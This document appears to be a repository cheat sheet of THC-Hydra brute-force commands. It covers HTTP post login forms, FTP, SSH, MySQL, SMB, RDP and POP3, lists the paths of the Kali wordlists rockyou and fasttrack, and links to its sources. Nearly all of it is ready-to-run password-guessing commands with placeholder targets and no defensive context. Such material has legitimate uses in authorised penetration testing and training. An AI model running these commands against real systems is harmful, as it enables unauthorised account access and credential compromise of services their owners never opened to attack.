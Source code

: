 # Brute Force THC-Hydra

## HTTP Post Web Form

$ hydra -L user-lst.txt -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/Login Page:Request Body:Error Message"

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt http://example.com:8080  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 12021 ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://url-name.co

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -s 2222 ssh

$ hydra -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://url-name.co:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -f -l username -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 rdp

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP -s 53389 rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://url-name.co:33389/

## POP3

$ hydra -f -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP pop3

$ hydra -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP -s 10110 pop3

## Dir Kali Passwords Wordlists

/usr/share/wordlists/rockyou.txt

/usr/share/wordlists/fasttrack.txt

/usr/share/wordlists/john.lst

/usr/share/wordlists/nmap.lst

/usr/share/wordlists/legion

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
